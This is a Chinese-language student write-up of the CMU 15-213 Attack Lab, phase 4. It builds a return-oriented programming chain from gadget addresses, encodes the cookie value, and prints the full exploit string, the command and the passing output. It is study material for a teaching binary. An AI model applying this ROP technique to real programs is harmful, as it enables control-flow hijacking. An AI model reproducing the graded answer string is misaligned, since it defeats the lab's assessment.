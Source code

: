 使用`popq %rax`是因为，`popq`有 8 种可能的结果，而只有`popq %rax`出现在代码的字节中，因此我们从这里出发。我们翻译一下`movq (%rax),%rdi`，其字节编码为`48 8b 38`。

但是我们发现其实不用那么麻烦，也就是说不用保存之前的`%rsp`，这是因为我们可以通过`gadget`中的`ret`指令弹出后 8 个字节的地址并且首先跳转，那么就无需把`touch3`的地址保存在最开始的部分。栈空间可以简化成如下情况：

![frame1.png](frame1.png)

但是我们发现一个问题，就是`movq (%rax),%rdi`这条指令所对应的字节在源程序中找不到，因此我们需要采取一个更加优化的办法，就是不在栈上保存`cookie`的地址，而是直接保存`cookie`的值，`cookie`的值为`0x59b997fa`，那么栈空间可以简化成如下情况：

![frame3.png](frame3.png)

这样只需要两条指令就可以做到了。这两条指令的编码是

```

gadget.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	58                   	pop    %rax
   1:	48 89 c7             	mov    %rax,%rdi

```

但是这两条指令我们无法在同一处找到，因此需要划分为 2 个`gadget`。且两条后面的都必须接数个`90`（`nop`）加上一个`c3`。

第一个的地址是`4019ab`或`4019cc`。第二个的地址是`4019a2`或者`4019c5`。

我们这里使用`4019ab`和`4019a2`两个`gadget`。第一个中存储`pop %rax`指令，第二个中存储`mov %rax, %rdi`指令。最后的栈空间如下：

![frame-last.png](frame-last.png)

由此，输入的攻击字符串的前 40 个字节随意，后面 32 个字节根据上述栈情况为（注意应该用小端法）

```
ab 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
a2 19 40 00 00 00 00 00
ec 17 40 00 00 00 00 00
```

> 刚刚差点把 gadget1 和 2 的地址搞反了，导致跑出来 segmentation fault，还疑惑是怎么回事，后来一看发现不好，哈哈哈哈，做题的时候还是要认真仔细嗷！

输入`./hex2raw < phase4.txt | ./rtarget -q`（注意不要输入成`ctarget`啦！），运行结果如下：

```bash
gwen@gwen-virtual-machine:~/Documents/report/code/15213/lab/lab3-attack-lab$ ./hex2raw < phase4.txt | ./rtarget -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
